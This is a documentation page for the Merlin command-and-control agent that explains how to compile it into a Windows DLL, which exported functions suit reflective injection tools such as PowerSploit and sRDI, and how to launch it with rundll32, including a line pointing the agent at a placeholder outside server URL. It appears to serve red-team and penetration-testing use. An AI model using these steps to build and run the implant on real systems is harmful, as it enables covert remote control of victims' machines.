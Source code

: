 #########
DLL Agent
#########

The Merlin Agent can be compiled into a DLL using the https://github.com/yok4i/merlin-agent-dll repository.
The ``merlin.c`` file is a very simple C file with a single function.
The ``VoidFunc`` and ``Run`` functions are exported to facilitate executing the DLL.

The ``VoidFunc`` function name was specifically chosen to facilitate use with PowerSploit's
`Invoke-ReflectivePEInjection.ps1 <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>`_.
Using ``VoidFunc`` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the `TDM-GCC <http://tdm-gcc.tdragon.net/download>`_ 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure ``MinGW-w64`` is installed.

Creating the DLL
----------------

The DLL can be created using the Make file with ``make``

Alternatively, it can be compiled without Make by following these steps:

* Create the required C archive file:
    ``go build -buildmode=c-archive main.go``

* Compile the DLL
    ``gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32``

You will now have DLL file that you can use with whatever method of execution you would like.

DLL Entry Points
----------------

This table catalogs the exported functions for ``merlin.dll`` that can be used as an entry point when executing the DLL.

.. csv-table:: Exported DLL Functions
   :header: "Exported Function", "Status", "Notes"
   :widths: auto

    Run, Working, Main function to execute Merlin agent
    DllInstall, Partial, Used with regsvr32.exe /i . Handling for ``/i`` not implemented
    DllRegisterServer, Working, Used with regsvr32.exe
    DllUnregisterServer, Working, Used with regsvr32.exe /u
    ReflectiveLoader, Removed, Used with Metasploit's windows/manage/reflective_dll_inject module
    Magic, Working, Exported function in ``merlin.c``; used with sRDI or any other method
    Merlin, Working, Exported function in ``main.go``
    VoidFunc, Working, Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

Execution with rundll32.exe
----------------------------

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using ``rundll32`` are:

* ``rundll32 merlin.dll,Run``
* ``rundll32 merlin.dll,Merlin``
* ``rundll32 merlin.dll,Magic``

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

``rundll32 merlin.dll,Run https://yourdomian.com:443/``

**NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe
